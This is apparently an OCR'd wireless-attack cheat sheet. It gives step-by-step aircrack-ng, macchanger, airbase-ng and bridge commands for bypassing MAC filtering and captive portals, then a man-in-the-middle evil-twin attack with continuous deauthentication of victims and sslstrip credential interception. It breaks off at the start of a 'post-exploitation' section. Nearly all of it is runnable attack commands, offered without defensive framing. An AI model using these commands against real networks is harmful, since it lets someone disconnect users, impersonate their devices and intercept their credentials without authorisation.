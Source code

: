 ### BYPASS DEFENSES
Bypass MAC Filtering
airmon-ng start wlan0

airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon

aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon

ifconfig wlan0mon down

macchanger --mac <VictimMac> wlan0mon

ifconfig wlan0mon up

aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon

### Bypass Open Network (Captive Portal)
Connect to open AP

iwconfig wlan0 essid <ESSID>

dhclient wlan0

Spoof MAC if filtered

macchanger --mac <VictimMac> wlan0

Use browser to bypass portal or intercept creds with MITM

### MAN-IN-THE-MIDDLE (MITM) ATTACK
Prerequisite - Install bridge-utils (apt-get install bridge-utils)

airmon-ng start wlan0

airbase-ng -e "<FakeESSID>" wlan0mon - Creates at0 interface

brctl addbr mitm-bridge

brctl addif mitm-bridge wlan0mon

brctl addif mitm-bridge at0

ifconfig wlan0mon 0.0.0.0 up

ifconfig at0 0.0.0.0 up

ifconfig mitm-bridge up

aireplay-ng --deauth 0 -a <VictimBSSID> wlan0mon - Continuous deauth

dhclient mitm-bridge & - Get IP from real network

wireshark & - Select mitm-bridge interface

Optional - SSLstrip or intercept creds

sslstrip -l 8080 &

### POST-EXPLOITATION
Connect to Network (WEP)
ifconfig wlan0mon down
